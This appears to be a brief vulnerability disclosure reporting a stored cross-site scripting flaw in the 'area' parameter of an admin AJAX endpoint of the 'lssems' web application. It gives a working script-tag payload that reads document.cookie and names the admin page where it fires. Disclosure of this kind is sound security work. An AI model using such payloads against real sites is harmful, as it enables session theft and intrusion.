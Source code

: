 BUG_Author: sikii

Vulnerability File: /lssems/admin/ajax.php?action=save_area

POST parameter "area" exists stored cross-site scripting vulnerability

Payload: id=&area=<script>alert(document.cookie)</script>

![image](https://github.com/sikii7/CVE/blob/main/pic/xss1.png)

Payload will trigger when a user visits on http://localhost/lssems/admin/index.php?page=areas

![image](https://github.com/sikii7/CVE/blob/main/pic/xss2.png)
